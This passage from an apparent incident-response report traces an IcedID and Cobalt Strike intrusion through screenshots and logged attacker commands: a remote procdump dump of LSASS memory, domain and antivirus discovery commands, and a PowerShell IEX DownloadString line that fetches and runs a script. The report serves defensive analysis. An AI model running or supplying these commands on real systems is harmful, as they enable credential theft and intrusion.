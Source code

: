 [![](https://thedfirreport.com/wp-content/uploads/2021/07/01-Procdump-On-File-Server.png)](https://thedfirreport.com/wp-content/uploads/2021/07/01-Procdump-On-File-Server.png)



```
cmd.exe /C wmic /node:"servername.domainname" process call create "C:\PerfLogs\procdump.exe -accepteula -ma lsass C:\PerfLogs\lsass.dmp"
```

This activity appears to have failed due to Windows Defender activity.


### Discovery


IcedID initially performed some discovery of the local system and the domain. 


[![](https://thedfirreport.com/wp-content/uploads/2021/07/01-Iceid-Intial-Discovery.png)](https://thedfirreport.com/wp-content/uploads/2021/07/01-Iceid-Intial-Discovery.png)



```
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get * /Format:List   
ipconfig /all systeminfo   
net config workstation   
net view /all /domain nltest /domain\_trusts /all\_trusts   
nltest /domain\_trusts   
net view /all   
net group "Domain Admins" /domain
```

Later, Cobalt Strike beacons were used to perform discovery of the system and domain. 


[![](https://thedfirreport.com/wp-content/uploads/2021/07/02-Cobalt-Strike-Discovery.png)](https://thedfirreport.com/wp-content/uploads/2021/07/02-Cobalt-Strike-Discovery.png)



```
cmd.exe /C systeminfo
cmd.exe /C nltest /dclist:DOMAIN.local
cmd.exe /C nltest /domain_trusts /all_trusts
IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:55869/'); Find-LocalAdminAccess
```

A discovery batch script that runs ADFind.exe was dropped to the system. 


[![](https://thedfirreport.com/wp-content/uploads/2021/07/03-ADF-batch-script-and-ADfind_exe-created.png)](https://thedfirreport.com/wp-content/uploads/2021/07/03-ADF-batch-script-and-ADfind_exe-created.png)


ADFind.exe was executed by the discovery batch script. 


[![](https://thedfirreport.com/wp-content/uploads/2021/07/04-ADF-being-run.png)](https://thedfirreport.com/wp-content/uploads/2021/07/04-ADF-being-run.png)

